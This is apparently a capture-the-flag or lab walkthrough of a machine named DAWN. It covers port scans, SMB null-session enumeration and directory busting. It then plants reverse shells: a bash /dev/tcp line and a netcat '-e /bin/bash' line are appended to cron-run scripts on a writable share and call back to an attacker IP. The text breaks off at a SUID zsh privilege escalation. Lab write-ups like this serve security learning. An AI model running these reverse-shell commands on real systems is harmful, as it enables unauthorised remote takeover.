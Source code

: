 Linux ttl=61
# rustscan

```
scan 192.168.214.11
```

```
PORT     STATE SERVICE      REASON
80/tcp   open  http         syn-ack ttl 61
139/tcp  open  netbios-ssn  syn-ack ttl 61
445/tcp  open  microsoft-ds syn-ack ttl 61
3306/tcp open  mysql        syn-ack ttl 61

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.39 seconds
           Raw packets sent: 8 (328B) | Rcvd: 5 (204B)
```

# nmap

```
sudo nmap -sS -Pn -T4 -sCV -O -A -p80,139,445,3306 192.168.214.11
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-09 06:15 EDT
Nmap scan report for 192.168.214.11
Host is up (0.12s latency).

PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 19
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, Support41Auth, Speaks41ProtocolOld, LongColumnFlag, FoundRows, InteractiveClient, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, ODBCClient, Speaks41ProtocolNew, IgnoreSigpipes, SupportsTransactions, IgnoreSpaceBeforeParenthesis, SupportsCompression, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: P)xF1`q8cifBYvg!l~Tf
|_  Auth Plugin Name: mysql_native_password
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.4 (90%), Linux 4.9 (90%), Linux 3.10 - 3.12 (89%), Linux 4.0 (88%), Linux 3.10 (87%), Linux 3.10 - 3.16 (87%), Linux 2.6.18 (87%), Linux 3.10 - 4.11 (87%), Linux 3.11 - 4.1 (87%), Linux 3.18 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: DAWN

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-06-09T10:15:23
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: dawn
|   NetBIOS computer name: DAWN\x00
|   Domain name: dawn
|   FQDN: dawn.dawn
|_  System time: 2024-06-09T06:15:20-04:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s

TRACEROUTE (using port 139/tcp)
HOP RTT       ADDRESS
1   301.52 ms 192.168.45.1
2   301.48 ms 192.168.45.254
3   301.54 ms 192.168.251.1
4   301.58 ms 192.168.214.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.63 seconds

```


# initial

Only interesting port is `smb` as there was nothing interesting on web

![[Pasted image 20240610012719.png]]

### dir busting

started dir busting in background and found `/logs`

![[Pasted image 20240610012816.png]]

`management.log` is interesting here

### smb null

```
nxc smb 192.168.240.11 --shares -u "" -p ""
```

![[Pasted image 20240610012953.png]]

```
smbmap -H 192.168.240.11  
```

![[Pasted image 20240610013004.png]]

```
nmap -p139,445 --script=smb-enum-shares 192.168.240.11
```

![[Pasted image 20240610013045.png]]

### cron job

from management.log I found about cron job which is calling `web-control` and `product-control` from ITDEPT share so I put those both file in that share with rev shell and got that

```
echo "bash -c '/bin/bash -i >& /dev/tcp/192.168.45.221/4444 0>&1'" >> product-control
```

```
echo 'nc 192.168.45.221 4444 -e /bin/bash' >> web-control   
```


### priv esc

easy-peasy

checked SUID and found `zsh` is there